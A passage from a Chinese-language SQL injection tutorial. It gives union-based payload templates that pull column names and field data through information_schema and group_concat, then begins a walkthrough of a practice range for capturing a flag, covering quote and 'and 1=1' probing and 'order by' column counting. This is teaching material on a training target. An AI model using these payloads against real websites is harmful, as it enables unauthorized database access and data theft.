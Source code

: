 这句代码的意思是从`information_schema`数据库里的`tables`表里找`table_schema`字段里的数据为 **目标数据库名** 所对应的`table_name`字段里的数据，即查询 **目标数据库名内的所有表名**。

`group_concat(table_name)`：将查询到的表名用`,`连起来。

#### 6.查询目标表名内的所有字段名

    http://xxxxxxx?id=1 and 1=2 union select 1,group_concat(column_name),3 from information_schema.columns where table_name = "目标表名"

#### 7.查询目标字段名内的数据

    http://xxxxxxx?id=1 and 1=2 union select 1,group_concat(目标字段名),3 from 目标表名

如果要一次性查询多个字段内的数据：

    http://xxxxxxx?id=1 and 1=2 union select 1,group_concat(字段名1,";",字段名2,";",字段名3),3 from 目标表名

`;`用来分隔多个字段名内的数据

​	

## 拓展实战：

### 手工注入：

这是一个SQL注入的靶场，目标是找到“flag”

<img src="https://pic1.imgdb.cn/item/646f1050f024cca1735aec3a.png"  />

首先我们要去找到交互点，这个界面的交互点只有最上面的地址栏，但没有类似`http://xxxxxxx?id=数字`，没法做SQL注入。

所以要先找到地址栏有类似于`id=数字`这样的界面

可以看到这里有个**查看新闻**的按钮

<img src="https://pic1.imgdb.cn/item/646f11ecf024cca1735e3427.jpg"  />

点进去之后看到地址栏出现了我们期待的`?id=1`，接下来就是测试这个交互点（地址栏）是否存在SQL注入了！

<img src="https://pic1.imgdb.cn/item/646f1268f024cca1735f35ba.jpg"  />

上文有提到SQL注入的流程，首先我们在`1`后面加个 `‘`，即`http://pu2lh35s.ia.aqlab.cn/?id=1'`，访问后发现页面出错了（内容没了）

![](https://pic1.imgdb.cn/item/646f136cf024cca173615e4b.jpg)

接着我们再试试在后面加上 `and 1=1`，即`http://pu2lh35s.ia.aqlab.cn/?id=1 and 1=1`，可以看到页面照常显示

![](https://pic1.imgdb.cn/item/646f1403f024cca1736267a4.jpg)

到这里就说明了地址栏这个交互点存在SQL注入

接着是判断页面有几个字段

地址栏输入：

```
http://pu2lh35s.ia.aqlab.cn/?id=1 order by 2
```
